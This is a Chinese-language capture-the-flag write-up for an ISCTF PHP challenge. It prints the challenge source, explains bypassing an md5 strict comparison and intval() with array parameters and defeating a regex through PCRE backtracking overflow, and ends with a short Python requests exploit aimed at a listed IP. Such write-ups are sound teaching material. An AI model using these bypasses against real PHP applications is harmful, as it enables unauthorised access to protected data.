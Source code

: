 ## 绕进你的心里

***

出题人:fpclose

![image-20240413223539249](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20240413223539249.png)

源码：

```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
require 'flag.php';
$str = (String)$_POST['pan_gu'];
$num = $_GET['zhurong'];
$lida1 = $_GET['hongmeng'];
$lida2 = $_GET['shennong'];
if($lida1 !== $lida2 && md5($lida1) === md5($lida2)){
    echo "md5绕过了!";
    if(preg_match("/[0-9]/", $num)){
        die('你干嘛?哎哟!');
    }
    elseif(intval($num)){
        if(preg_match('/.+?ISCTF/is', $str)){
            die("再想想!");
        }
        if(stripos($str, '2023ISCTF') === false){
            die("就差一点点啦!");
        }
        echo $flag;
    }
}
?> 

```

分析：题目要求我们传入4个参数，满足条件即可获得flag。

源码接入两个get型参数（hongmeng、shennong）分别赋值给 \$lida1 和 \$lida2 。然后使用 if 条件语句进行判断：

### 第一层：

如果 \$lida1 和 \$lida2 的值 **强不等于**并且两者的**md5加密后的值强相等**，则代码继续往下执行，也就是我们传入的参数必须满足以下条件。

这里可以使用**数组**进行绕过。

### 第二层：

在这里，intval() 函数会将 \$num 给转换为数字，但如果字符中没有找到数字，那么就被视为不可转换的字符，即返回 false。

也就是说，我们传入的字符串内必须含有一个数字。

这里同样也可以使用数组绕过，intval() 函数处理非空数组时会返回整数1。

### 第三层：

判断 str 是否包含 ‘2023ISCTF’，如果不包含，则输出相应提示，否则输出 \$flag。但是如果我们的字符换中包含有 2023ISCTF 那么就会与正则函数相冲突。这里使用回溯绕过跳过正则的限制。

exp如下：

```python
//构造exp
import requests
data={"pan[gu":"a"*(1000000)+"2023ISCTF"}
url="http://47.109.106.104:9999/?hongmeng[]=1&shennong[]=2&zhurong[]=1"
res = requests.post(data=data,url=url)
print(res.text)

```

将ip替换即可使用。 运行程序直接获得flag。



